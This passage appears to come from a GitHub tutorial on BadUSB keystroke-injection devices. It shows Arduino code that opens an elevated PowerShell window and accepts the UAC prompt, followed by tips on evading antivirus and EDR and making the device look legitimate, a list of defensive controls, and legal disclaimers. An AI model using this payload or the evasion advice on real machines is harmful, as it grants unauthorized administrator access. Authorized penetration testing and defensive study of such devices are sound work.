 ### Arduino Output:
```cpp
void executePayload() {
  // Open PowerShell as Admin
  delay(1000);
  Keyboard.press(KEY_LEFT_GUI); Keyboard.press('r'); 
  Keyboard.release('r'); Keyboard.release(KEY_LEFT_GUI);
  delay(500);
  Keyboard.print("powershell");
  Keyboard.press(KEY_LEFT_CTRL); Keyboard.press(KEY_LEFT_SHIFT); 
  Keyboard.press(KEY_RETURN); Keyboard.release(KEY_RETURN); 
  Keyboard.release(KEY_LEFT_SHIFT); Keyboard.release(KEY_LEFT_CTRL);
  delay(2000);
  Keyboard.print("Y");
  Keyboard.press(KEY_RETURN); Keyboard.release(KEY_RETURN);
}
```

---

## ⚠️ Security & Legal Considerations

### 🛡️ Defense Evasion Tips
- **Test on isolated systems first**
- **Use realistic timing delays** (systems vary in boot/response time)
- **Consider USB device appearance** (use legitimate-looking cases)
- **Account for different keyboard layouts**
- **Test against antivirus/EDR solutions**

### 🔒 Modern Security Controls
Be aware these protections may block BadUSB attacks:
- **Device Control Policies** (Windows Defender, Enterprise policies)
- **USB Port Restrictions** (Physical/software blocks)
- **Script Execution Policies** (PowerShell, UAC prompts)
- **Endpoint Detection and Response** (EDR monitoring)
- **Application Whitelisting** (Only approved apps can run)

### ⚖️ Legal & Ethical Use
- **✅ Authorized penetration testing only**
- **✅ Educational research environments**
- **✅ Personal systems you own**
- **❌ Never use on systems without explicit permission**
- **❌ Illegal to deploy on others' systems**

---

## 🐛 Troubleshooting

### Common Issues

